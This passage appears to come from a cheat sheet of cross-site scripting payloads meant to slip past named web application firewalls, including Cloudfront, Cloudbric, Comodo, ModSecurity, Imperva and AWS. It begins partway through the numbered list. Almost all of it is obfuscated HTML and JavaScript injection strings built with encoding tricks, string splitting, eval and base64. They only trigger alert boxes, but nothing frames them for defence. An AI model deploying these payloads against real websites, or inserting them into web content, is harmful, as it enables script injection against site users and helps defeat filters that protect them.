 
2 - Cloudfront

```html
">%0D%0A%0D%0A<x '="foo"><x foo='><img src=x onerror=javascript:alert(`cloudfrontbypass`)//'>

<--`<img%2fsrc%3d` onerror%3dalert(document.domain)> --!>

"><--<img+src= "><svg/onload+alert(document.domain)>> --!>
```  

3 - Cloudbric

```html
<a69/onclick=[1].findIndex(alert)>pew
```

4 - Comodo WAF

```html
<input/oninput='new Function`confir\u006d\`0\``'>

<p/ondragstart=%27confirm(0)%27.replace(/.+/,eval)%20draggable=True>dragme
```

5 - ModSecurity

```html
<a href="jav%0Dascript&colon;alert(1)">
```

6 - Imperva

```html
<input id='a'value='global'><input id='b'value='E'><input 'id='c'value='val'><input id='d'value='aler'><input id='e'value='t(documen'><input id='f'value='t.domain)'><svg+onload[\r\n]=$[a.value+b.value+c.value](d.value+e.value+f.value)>

<x/onclick=globalThis&lsqb;'\u0070r\u006f'+'mpt']&lt;)>clickme

<a/href="j%0A%0Davascript:{var{3:s,2:h,5:a,0:v,4:n,1:e}='earltv'}[self][0][v+a+e+s](e+s+v+h+n)(/infected/.source)" />click

<a69/onclick=write&lpar;&rpar;>pew

<details/ontoggle="self['wind'%2b'ow']['one'%2b'rror']=self['wind'%2b'ow']['ale'%2b'rt'];throw/**/self['doc'%2b'ument']['domain'];"/open>

<svg onload\r\n=$.globalEval("al"+"ert()");>

<svg/onload=self[`aler`%2b`t`]`1`>

%3Cimg%2Fsrc%3D%22x%22%2Fonerror%3D%22prom%5Cu0070t%2526%2523x28%3B%2526%2523x27%3B%2526%2523x58%3B%2526%2523x53%3B%2526%2523x53%3B%2526%2523x27%3B%2526%2523x29%3B%22%3E

<iframe/onload='this["src"]="javas&Tab;cript:al"+"ert``"';>

<img/src=q onerror='new Function`al\ert\`1\``'>

<object data='data:text/html;;;;;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=='></object>
```

7 - AWS

```html
<script>eval(atob(decodeURIComponent(confirm`1`)))</script>
```
